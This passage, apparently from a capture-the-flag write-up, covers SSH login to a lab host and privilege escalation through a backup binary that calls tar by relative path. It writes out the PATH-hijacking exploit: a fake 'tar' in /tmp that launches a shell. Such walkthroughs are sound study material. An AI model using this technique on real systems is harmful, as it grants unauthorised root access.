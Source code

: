 Connect as matt:

```bash
ssh -i id_rsa matt@10.10.11.136
```

### 6.2 Exploiting `pandora_backup`

Check binary:

```bash
ls -l ./usr/bin/pandora_backup
```

![](screenshots/pandora_backup_priv.png)

Trace execution:

```bash
ltrace ./usr/bin/pandora_backup
```

![](screenshots/pandora_backup_code.png)

Finds `tar` called with **relative path** → vulnerable to **path hijacking**.

Exploit:

```bash
cd /tmp/
touch tar
chmod +x tar
echo "/usr/bin/sh" > tar
export PATH=/tmp:$PATH
echo $PATH
```

![](screenshots/tar_file.png)  
![](screenshots/path_hijacking.png)
